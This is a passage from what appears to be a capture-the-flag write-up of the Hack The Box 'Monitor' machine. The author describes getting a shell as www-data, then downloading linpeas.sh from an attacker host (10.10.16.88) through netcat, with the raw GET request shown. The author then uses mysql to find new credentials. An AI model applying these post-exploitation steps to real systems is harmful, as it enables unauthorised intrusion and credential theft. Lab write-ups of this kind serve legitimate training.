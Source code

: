 ![19](/assets/images/htb/hard/monitor/19.png)
and got 2 hash......

and we got shell as www-data...
well there is no curl and wget so i use nc to download file.....

```
GET /linpeas.sh HTTP/1.1
Host: 10.10.16.88:5555
User-Agent: netcat
```
after that i run and note impotant things....

well when i wordpress and mysql i remember that we wasn't able to login into it....
so i use mysql to connect and and new creds.....

![21](/assets/images/htb/hard/monitor/21.png)